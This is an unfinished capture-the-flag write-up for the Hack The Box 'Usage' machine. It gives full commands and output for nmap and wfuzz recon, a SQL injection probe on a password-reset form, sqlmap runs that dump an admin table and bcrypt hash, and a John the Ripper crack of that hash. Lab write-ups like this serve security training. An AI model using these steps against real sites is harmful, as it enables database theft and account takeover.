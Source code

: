 # ROOM
Usage from HTB :)

I want to write  this writeup in english this time :)

# Information gathering
This is a website, with login, register and admin page.

As we can see in cookie, it using laravel. And that all.
# Enumeration
## Nmap
We're gonna scan the attack surface using nmap
```
nmap -sC -sV $TARGET -p -o nmap.txt
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-29 04:00 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Daily Blogs
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 292.50 seconds
```
## Wfuzz
Using wfuzz, we can see they have only 1 avaible subdomain
```
wfuzz -c -u http://usage.htb -H "Host: FUZZ.usage.htb" -w /home/kali/Wordlist/subdomains-top1million-5000.txt --hc 301
```
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://usage.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                               
=====================================================================

000000024:   200        88 L     226 W      3304 Ch     "admin"                                                                                               

Total time: 12.70573
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 392.6572
```
## Manual search
After trying multiple things, i found a field vulnerable to SQL injection in reset password page.

This payload :
```
bleh@bleh.com' AND 1=1;-- -
```
Return :
```
We have e-mailed your password reset link to bleh@bleh.com' AND 1=1;-- - 
```
Wich means its vulnerable.

# Exploitation
With SQL Map, we're gonna try to exploit the SQL injection to get some credentials or other usefull stuff.

I catch the request using burpsuite:
```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IlI1T3JPcXY3M213Y3ZYdzg3V2gvM3c9PSIsInZhbHVlIjoiVllIVGUvclV3ajZ6dnREc2xLVHNrMGNuMERHSS8rc0tzdmwzb2YybFBzVkM5N29NYTVwVHMzdGVpYmU4VkpYSjlCaFQrSGRvTlVhWk5ma1liZzAvRDFjMzN3R3djeXBZTXI0c0RIbXgyMTZMU0ROVkVVdUgwemZNT21XYnZESlEiLCJtYWMiOiI4MmEzZWViZDYzMjVlNWUyMTgxYTY1ZmFkODExODQ3MGEyYzE4Y2M4MzEwN2ViMjE1NDgxNjEwNDRiMGU3NmQxIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6Ik8va1UrVWFQSVZUeE40aDRkbTNZZXc9PSIsInZhbHVlIjoiTFNUd1VScDhNZmJSQXAxaTRiR2t3NktSaTYzQXk0M0pEa0pGUjJFc2VrOTNYOTcyU0ZFU3JLVTRPWnQreGgva01zRDZQNlBmZnlqRUJQY25jMUNwdzkwUDZ4V01xNFptUlA2RSs3WFUydFg2d2xPT292Rm5zdklkZ0h2TXJoQVUiLCJtYWMiOiIxNjgwZGYwMTQzMTY3OWY3ZWUzYzJkMWVlMWZiM2ExZThiMGUxOTM3OGE0MGI0ZGI5MjE1NDAzZjFhZmVlMTA1IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=hK2lIyI4ojEn9lACt8ogdKKBepGlCFp0WaEC5Ssh&email=test
```
Save it to file (like req.txt) then use sqlmap. Its a challenge, so we dont care about the risk or other sneaky parameters.
```
sqlmap -r req.txt -p email -bash --dump-all
```
It found some usefull stuff but it can't dump the admin_users :
```
[08:55:07] [ERROR] unable to retrieve the number of columns for table 'admin_users' in database 'usage_blog'
[08:55:07] [WARNING] unable to retrieve column names for table 'admin_users' in database 'usage_blog'
[08:55:07] [WARNING] unable to enumerate the columns for table 'admin_users' in database 'usage_blog'
```
We're gonna try to dump **admin_users**, i added --dbms to be more accurate because now we knew it use MySQL.
```
sqlmap -r req.txt -p email --batch --dbms=MySQL -T admin_users --dump
```
```
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+---------------------+---------------------+--------------------------------------------------------------+
```
We have the name, the token etc. but no password. We're gonna try to get the password column now
```
sqlmap -r req.txt -p email --batch --dbms=MySQL -T admin_users -C password --dump
```
```
+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+--------------------------------------------------------------+
```
Finally !

Now, we need to crack it.
```
john --wordlist=/home/kali/Wordlist/rockyou.txt hash  
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:11 DONE (2024-04-29 09:57) 0.08888g/s 144.0p/s 144.0c/s 144.0C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
So, here the admin account :
```
Administrator
whatever1
```
This account do not work with the login page nor the admin login page...

We must continue our research in MySQL...
# Post exploit

**NOT FINISH YET**
